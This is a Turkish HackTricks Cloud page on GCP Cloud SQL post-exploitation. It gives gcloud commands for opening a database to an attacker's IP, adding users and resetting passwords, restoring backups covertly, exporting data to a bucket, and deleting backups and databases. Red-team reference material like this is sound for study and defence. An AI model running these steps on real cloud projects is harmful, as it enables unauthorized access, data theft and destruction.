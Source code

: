 # GCP - Cloud SQL Sonrası Sızma

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## Cloud SQL

Cloud SQL hakkında daha fazla bilgi için:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, (`cloudsql.instances.get`)

Veritabanlarına bağlanmak için **sadece veritabanı bağlantı noktasına erişiminiz olması** ve **kullanıcı adı** ve **parolayı** biliyor olmanız yeterlidir, herhangi bir IAM gereksinimi yoktur. Bu nedenle, veritabanının genel bir IP adresine sahip olduğunu varsayarsak, erişim sağlamak için izin verilen ağları güncelleyebilir ve **kendi IP adresinize erişimi izin verebilirsiniz**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ayrıca, veritabanının yedeklemelerini bozmak için **`--no-backup`** kullanmak da mümkündür.

Bu gereksinimler olduğu için **`cloudsql.instances.connect`** ve **`cloudsql.instances.login`** izinlerinin tam olarak ne olduğunu bilmiyorum. Biliyorsanız bir PR gönderin!

### `cloudsql.users.list`

Veritabanının **tüm kullanıcılarının bir listesini** alın:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Bu izin, veritabanı içinde yeni bir kullanıcı oluşturmaya izin verir:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Bu izin, veritabanı içindeki kullanıcıyı güncellemeye olanak tanır. Örneğin, şifresini değiştirebilirsiniz:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Yedeklemeler eski hassas bilgiler içerebilir, bu yüzden onları kontrol etmek ilginç olabilir.\
Bir veritabanında bir yedeklemeyi geri yükle:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Daha gizli bir şekilde yapmak için, mevcut çalışan veritabanlarında değil, yeni bir SQL örneği oluşturmak ve verileri orada kurtarmak önerilir.

### `cloudsql.backupRuns.delete`

Bu izin yedeklemeleri silmeye izin verir:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

Bir veritabanını bir Cloud Storage Bucket'a aktararak oradan erişebilirsiniz:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

Bir Cloud Storage Bucket'tan bir veritabanını (üzerine yazarak) içe aktarın:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Veritabanını db örneğinden siler:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek isterseniz** veya **HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARINA**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin.**
* **Hacking hilelerinizi paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek** katkıda bulunun.

</details>

